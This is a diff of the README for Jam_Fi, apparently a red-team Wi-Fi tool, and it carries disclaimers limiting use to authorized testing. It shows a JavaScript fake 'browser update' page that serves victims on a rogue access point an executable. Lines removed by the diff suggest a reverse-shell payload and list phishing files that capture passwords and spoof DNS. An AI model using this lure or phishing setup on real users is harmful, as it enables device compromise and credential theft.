

Before and after one commit to ekomsSavior/Jam_fi, a Markdown page: README.md, the part around one of its changes. Shown at 85% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -145,24 +176,17 @@ loot/creds.txt
 
--------------------------------------------------------------------------------------------------------------------
+## MITM Fake Update Injection
 
-🔐 **Advanced Hack: Fake Browser Update + Payload (Optional)**
-JamFi lets you simulate a fake browser update prompt using pure HTML + JavaScript — no Flipper or Rubber Ducky required!
-
-Once a device connects to your Evil AP, redirect them to a custom update page by editing:
-`loot/injection.html`
-
-Here’s a simple example:
+You can simulate a fake update prompt with `loot/injection.html`:
 
 ```html
-<!-- loot/injection.html -->
-<h2>🔒 Browser Update Required</h2>
+<h2>Browser Update Required</h2>
 <p>To continue browsing, please install the latest security patch.</p>
 <button onclick="downloadUpdate()">Update Now</button>
 
 <script>
 function downloadUpdate() {
   const a = document.createElement('a');
-  a.href = 'http://10.0.0.1/fake_update.exe';  // Customize your payload here
+  a.href = 'http://10.0.0.1/fake_update.exe';
   a.download = 'update.exe';
   document.body.appendChild(a);
   a.click();
@@ -170,58 +194,22 @@ function downloadUpdate() {
 </script>
 ```
 
-Just place your payload (like `reverse_shell.exe`) in the `loot/` folder and it will auto-download when the user clicks "Update Now".
+Add your own payloads to the `loot/` directory and they will auto-download when the button is clicked.
 
-You now have a simulated Remote Code Execution (RCE) opportunity: if the victim downloads and runs the file, you can trigger reverse shells, backdoors, or persistence depending on your setup.
+---
 
-⚠️ JamFi does not include any malicious payloads — it's up to you to create safe, controlled experiments in your own lab. This is where red teamers, CTF lovers, and students can shine.
+## Disclaimer
 
---------------------------------------------------------------------------------------------------------------------------------
+Jam_Fi is provided for **educational and authorized security research only**.
 
-## 💼 The loot/ Folder
+Do not use this tool against networks or devices you do not own or have permission to test.
 
-This folder contains all the important config and phishing assets used by Evil AP and MITM modes:
+Use responsibly, ethically, and within legal boundaries.
 
-File	Purpose
+---
 
-index.html	The default captive portal or phishing homepage
+## About
 
-login.html	Fake login page that logs entered usernames & passwords
+Jam_Fi is an open-source red team utility developed by [@ekomsSavior](https://github.com/ekomsSavior).
 
-phish_server.py	Hosts the phishing server & saves form data to creds.txt
-
-creds.txt	Stores submitted login form credentials (auto-created)
-
-hostapd.conf	Used to configure and start the Evil Access Point
-
-dnsmasq.conf	Handles DHCP and DNS for the Evil AP
-
-dnsspoof_hosts	Used by dnsspoof to redirect all DNS to the attacker
-
-hotspot-detect.html	Helps trigger captive portal on iOS/macOS devices
-
-injection.html	Used for MITM HID payload simulation (fake keystroke browser page)
-
-All of these files are auto-generated if missing, so don’t stress if you delete them!
-
-----------------------------------------------------------------------------------
-
-## 🚨 Disclaimer
-
-This tool is for educational and authorized research only.
-
-By using Jam_Fi, you agree that you are responsible for your own actions.
-
-Do not use this tool on networks or devices you don’t have explicit permission to test.
-
-The goal is to educate and empower—not to harm. Use wisely 💜
-
----------------------------------------------------------------------------------------------
-
-## 💜 Built With Love
-
-Jam_Fi is a passion project created by @ekomsSavior xoxoxoox sending hugs to all the homies always ✨✨✨
-
-It’s free, open-source, and meant to make learning cybersecurity hands-on, fun, and inclusive for all.
-
-If you like Jam_Fi, give it a ⭐️ on GitHub and share it with your h4x0r and cybersecurity friends!
+If you find it useful, consider starring the repo and contributing responsibly.
````
Also changed, not shown: other parts of README.md (+114 -83 lines).
